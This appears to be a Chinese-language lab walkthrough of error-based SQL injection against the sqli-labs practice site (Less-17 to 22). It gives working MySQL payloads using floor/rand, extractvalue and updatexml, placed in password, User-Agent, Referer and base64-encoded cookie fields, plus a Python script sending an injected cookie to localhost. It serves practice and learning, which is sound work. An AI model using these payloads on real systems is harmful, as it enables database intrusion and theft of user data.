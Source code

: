 ### 新知识点：报错注入
基于报错的盲注是通过输入特定语句使页面报错，网页中则会输出相关错误信息，从而是我们得到想要的基本信息——数据库名、版本、用户名，这已经成为一套已经成型的公式，然后用普通注入的方法进行注入就好了，所以总结一下这么几个公式

1.直接使用报错：
```mysql
mysql> select 1,2 from user where id ="1" union select count(*),concat('/',(select database()),'/',floor(rand(0)*2))a from information_schema.columns group by a;
1062 - Duplicate entry '/nuaa_msc/1' for key '<group_key>'
```
<!--more-->
2、利用xpath函数—extractvalue报错
```mysql
mysql> select 1,2 from user where id ="1" and extractvalue(1,concat(0x7e,(select database()),0x73));
1105 - XPATH syntax error: '~nuaa_mscs'
```
concat里面甚至可以再放函数，如图用了group_concat，将用户名密码全部获得（但是好像输出长度有限定，只能输出一定长度结果）
```
mysql> select 1,2 from user where id ="1" and extractvalue(1,concat(0x7e,(select database()),'/',(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x73));
1105 - XPATH syntax error: '~nuaa_msc/articles'
```
3、利用xpath函数—updatexml报错：
```
mysql> select 1,2 from user where id ="1" and updatexml(1,concat(0x7e,(select database()),0x7e),1);
1105 - XPATH syntax error: '~nuaa_msc~'
```
## Hack
### Less-17
题目咋一看是一个重置密码的功能，其实可以通过延时注入来跑，这里用新学的知识点,任意选择上面的一种即可
```
passwd: 1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
uname: admin
```
![](image/51.png)

### Less-18
题目名字叫POST-Header Injection-Uagent field-Error based;
登录成功会出现user agent
![](image/52.png)
可以使用postman 修改User-Agent,注意首先要登录成功
```
User-Agent : 1'or updatexml(1,concat('#',(database())),0),'','')#
```
![](image/53.png)
爆表
```
User-Agent : 1' or updatexml(1,concat('#',(select group_concat(table_name) from information_schema.tables where table_schema='security')),0),'','')#
```
爆字段
```
User-Agent : 1' or updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0),'','')#
```
### Less-19
和18一样，只是把User-Agent改成Referer
![](image/54.png)
### Less-20
Cookie 注入 , 修改自身cookie , 后台获取到这个cookie后 , 会直接拿去数据库里面进行比较 , 比较的时候就有可能注入，登录成功后修改 cookie 即可
首先登录，然后修改cookie，可以通过谷歌Applocation直接修改为
```
'union select 1,group_concat(schema_name),3 from information_schema.schemata#
```
![](image/55.png)
也可以通过脚本
```python
import requests

url = "http://127.0.0.1/Less-20/"

postDate = {
	'uname':'admin',
	'passwd':'admin'
}

headers = {
	'Host':'127.0.0.1',
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0',
	'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
	'Accept-Encoding':'gzip, deflate',
	'Referer':'http://127.0.0.1/Less-20/index.php',
	'Cookie':'uname=\' union select 1,group_concat(schema_name),3 from information_schema.schemata#',
	'Connection':'keep-alive',
	'Upgrade-Insecure-Requests':'1',
	'Cache-Control':'max-age=0'
}

content = (requests.post(url, data=postDate, headers=headers).text)
print(content)
```
### Less-21
和上面差不多，但是这里的cookie用过了base64加密而且加上了括号
原始payload为
```
') union select 1,group_concat(schema_name),3 from information_schema.schemata#
```
base64
```
JykgdW5pb24gc2VsZWN0IDEsZ3JvdXBfY29uY2F0KHNjaGVtYV9uYW1lKSwzIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnNjaGVtYXRhIw==
```
同样的方式修改即可
### Less-22
上同，改为双引号,转码前
```
" union select 1,group_concat(schema_name),3 from information_schema.schemata#
```
转码后
```
IiB1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQoc2NoZW1hX25hbWUpLDMgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuc2NoZW1hdGEj
```